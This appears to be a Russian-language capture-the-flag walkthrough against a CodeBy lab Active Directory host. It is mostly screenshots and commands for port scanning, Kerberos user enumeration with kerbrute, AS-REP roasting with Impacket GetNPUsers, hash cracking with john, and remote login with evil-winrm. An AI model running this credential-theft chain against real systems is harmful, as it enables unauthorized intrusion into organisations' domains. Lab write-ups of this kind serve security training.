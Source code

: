 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9d8548d1-1a8f-4b78-bd5a-8fccb3659957)
```
nmap -p- 192.168.2.2 -v 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dcb6da32-cea4-403c-9397-9a3783c16877)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/af92e839-6787-4485-b58f-b592b4985dbd)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/535cbc99-318b-4b55-9209-95c67fb518d0)

```
nmap 192.168.2.2 -v -sC -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7da0c360-b644-4881-b0e4-283b041dc9d3)

Формируем список пользователей с помощью скрипта:
```
tut script python
```
Получаем такой файл

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c0662a67-eec6-40b9-8fc9-8ba22ac46a3e)

+ добавляем admin, administrator, Administrator, Admin и т.д.

https://spy-soft.net/kerbrute-for-attack-kerberos-active-directory/

https://github.com/ropnop/kerbrute/releases

```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.2 user-hack.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/05796fc8-26cd-4a58-a283-2957d77a9a64)

https://wadcoms.github.io/wadcoms/Impacket-GetNPUsers/
https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py
```
python3 GetNPUsers.py codeby.cdb/ -dc-ip 192.168.2.2 -usersfile user-hack.txt -format hashcat -outputfile user-hashes.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8093b52d-b8e6-4c3a-9182-7711d460f511)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6377e73c-ce8a-4a78-bcd3-09c73e44d1c7)

john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt hash-kovaleva.txt 

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e0a49758-64c9-4bed-a116-134d7b04ea4a)
```
evil-winrm -i 192.168.2.2 -u USER -p PASSWORD
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/695aca7e-e845-447e-9bb8-7bdfc20367ce)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/97dd49d3-0a4b-400a-a92b-083764b07420)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/44d1badc-7f98-437f-ac3c-a09e8ba8aaff)

Remmina

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6140441b-f902-4f07-b03e-66000f074fa1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec67c0ff-68e9-408a-8747-ba16afa1a625)


